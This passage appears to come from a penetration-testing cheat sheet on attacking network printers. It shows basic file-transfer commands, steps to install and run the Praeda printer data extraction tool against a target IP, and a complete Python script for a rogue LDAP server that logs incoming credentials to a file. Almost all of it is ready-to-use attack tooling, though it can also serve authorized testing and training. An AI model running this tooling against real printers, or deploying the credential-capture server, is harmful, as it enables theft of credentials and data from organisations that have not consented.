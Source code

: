 ```bash
ls                    # List files
get filename          # Download file
put filename          # Upload file
df                    # Show disk space
pwd                   # Current directory
cd directory          # Change directory
```

### Praeda - Printer Data Extraction
```bash
# Installation
git clone https://github.com/percx/Praeda.git
cd Praeda

# Scan for printers
perl praeda.pl -t target_ip

# Extract data from specific printer
perl praeda.pl -t target_ip -d
```

### Custom LDAP Server for Credential Capture
```python
#!/usr/bin/env python3
import socket
import threading

def handle_client(client_socket, address):
    print(f"[+] Connection from {address}")
    try:
        data = client_socket.recv(1024)
        print(f"[+] Received data: {data}")
        
        # Log credentials
        with open("captured_creds.txt", "a") as f:
            f.write(f"From {address}: {data}\n")
            
    except Exception as e:
        print(f"[-] Error: {e}")
    finally:
        client_socket.close()

def start_ldap_server(port=389):
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(('0.0.0.0', port))
    server.listen(5)
    
    print(f"[+] LDAP server listening on port {port}")
    
    while True:
        client, address = server.accept()
        client_thread = threading.Thread(target=handle_client, args=(client, address))
        client_thread.start()

if __name__ == "__main__":
    start_ldap_server()
```
